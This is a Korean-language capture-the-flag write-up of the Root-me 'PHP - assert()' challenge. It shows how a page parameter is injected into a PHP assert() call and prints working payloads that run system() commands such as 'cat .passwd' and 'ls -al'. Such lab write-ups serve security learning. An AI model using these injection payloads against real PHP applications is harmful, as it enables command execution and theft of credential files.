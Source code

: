 ```yaml
---
title : Root-me PHP assert()
date: 2022-06-18-21:41 +0900
categories : [Wargame, Root-me]
tags : [php assert, php assert bypass strpos]
---
```


## PHP - assert()
<hr style="border-top: 1px solid;"><br>

```
Read the doc!
Author
Birdy42,  26 November 2016

Statement
Find and exploit the vulnerability to read the file .passwd.
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

home, about 등의 페이지에 접속하면 파라미터로 ```?page=home``` 처럼 값을 받는다.

값으로 ```../```을 주니 아래와 같이 assertion이 출력됬다.
: ```Warning: assert(): Assertion "strpos('includes/../.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!```

<br>

Bypass LFI checks and strpos() check in assert
: <a href="https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6" target="_blank">infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6</a>

<br>

위의 블로그에서 설명해준 것 처럼  ```' and die(system('ls'))or '```을 통해 우회할 수 있다.

우선 입력 값으로 single quote를 입력해주면 에러가 뜨는데 이는 **즉, assert 문에 코드를 주입할 수 있다는 뜻**이다.

코드는 아마 ```assert(strpos('includes/$_GET["page"]'.php', '..') === false) or die('Detected hacking attempt!');```로 되어 있을 것이다.

따라서 ```' and die(system('cat .passwd')) or '```를 해주면 ```assert(strpos('includes/' and die(system('cat .passwd')) or ''.php', '..') === false) or die('Detected hacking attempt!');```이 되는데 솔직히 이거는 왜 되는지 모르겠다.

다른 payload로는 ```','.') === true or die(system('ls -al')) or strpos('```가 있고 이 코드를 주입하면 된다.

따라서 코드가 ```assert(strpos('includes/','.') === true or die(system('ls -al')) or strpos(''.php', '..') === false) or die('Detected hacking attempt!');```가 되어 assert문이 변조가 된다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
